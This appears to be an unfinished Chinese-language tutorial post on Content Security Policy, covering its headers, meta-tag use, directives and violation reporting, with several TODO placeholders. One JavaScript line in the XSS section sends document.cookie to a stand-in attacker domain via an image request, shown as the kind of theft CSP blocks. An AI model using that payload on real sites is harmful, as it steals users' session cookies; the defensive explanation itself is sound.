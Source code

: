 ```yaml
---
title: CSP 浏览器内存安全策略
categories: 安全
toc: true
date: 2021-08-11 19:18:36
permalink: /pages/91d0f1/
tags: 
  - 
---
```


## 什么是CSP?  ##

这里一段定义是来自于MDN社区
> Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross Site Scripting (XSS) and data injection attacks. These attacks are used for everything from data theft to site defacement or distribution of malware.

内容安全策略(CSP)是一种web应用技术用于帮助缓解大部分类型的内容注入攻击，包括XSS攻击和数据注入等，这些攻击可实现数据窃取、网站破坏和作为恶意软件分发版本等行为。该策略可让网站管理员指定客户端允许加载的各类可信任资源。

参考来源

https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP

## 使用CSP的两种方式

 - 通过服务器 HTTP 头部的 Content-Security-Policy 来指定
 - 通过 HTML 文档的 meta 标签配置策略

 例如：

 使用 HTTP 头部，这里的 policy 为策略字符串

 ```
 Content-Security-Policy: policy
 ```

使用 HTML meta 标签的方式

 ```HTML
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; img-src https://*; child-src 'none';">
 ```

 ## 主要防范目标

 CSP主要是防范 XSS 攻击，以及报告 XSS 攻击，如果页面存在漏洞让 JS 脚本注入，CSP 能限制脚本的运行，然后把损失降到最小

 

 ``` Javascript
 (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

 ```

 CSP 是通过限制加载到页面上的资源、域或者协议来实现的，例如，一旦入侵者找到漏洞注入了XSS攻击，入侵者可以通过 图片Ping的方式发送敏感信息到外部网站。CSP 可以指定允许信任域名下的图片、Script和样式表被加载到页面上，及时入侵者 XSS 入侵成功也无法通过这些方式发送数据，保证网站一定程度上安全。

 TODO 几个例子限制加载的资源


另外 CSP 也提供了只允许加载指定协议，例如HTTPS的资源，否则自动跳转到 HTTPS 版本。


## 使用 CSP 


当我们需要使用CSP生效就需要编写相应的策略，策略包括一系列指令组成和设置定的值组成。

例如，一个网站管理者允许内容来自信任的域名及其子域名 

```
Content-Security-Policy: default-src 'self' *.trusted.com

```

我们再看一条策略：

```
Content-Security-Policy: default-src 'self'; img-src *; media-src media1.com media2.com; script-src userscripts.example.com

```

这条策略有4个指令 img-src 为图片资源，media-src 为视频媒体资源，script-src 为脚本资源。最重要的一个是 default-src 为所有的资源默认属性，这里设置为了 ‘self’ 的含义为所有的资源再不指定的情况下只能从自身域下加载。

TODO 描述 行内脚本


## 资源

<host-source>
<scheme-source>
	self
	unsafe-inline
	unsafe-eva
	none
	nonce-<base64值>
	strict-dynamic



### 

 TODO 讲解这几种模式

## 报告违规情况

CSP 提供了另外一个非常有用的模式 - 报告模式，如果在 HTTP 头部指定 Content-Security-Policy-Report-Only 可以将发生了任何违规的事件都会被报告出去，但是这个头部只会对报告生效，实际生效还是需要 在Content-Security-Policy 中指定。

在报告的策略中需要配置一个 report-uri 用于服务器接受违规报告情况，例如：


```

Content-Security-Policy: default-src 'self'; report-uri http://reportcollector.example.com/collector.cgi


```

浏览器会向 report-uri 中指定的地址使用 POST 发送一个 JSON 格式的数据包。


数据包格式如下：

``` JSON

{
  "csp-report": {
    "document-uri": "http://example.com/signup.html",
    "referrer": "",
    "blocked-uri": "http://example.com/css/style.css",
    "violated-directive": "style-src cdn.example.com",
    "original-policy": "default-src 'none'; style-src cdn.example.com; report-uri /_/csp-reports"
  }
}

```




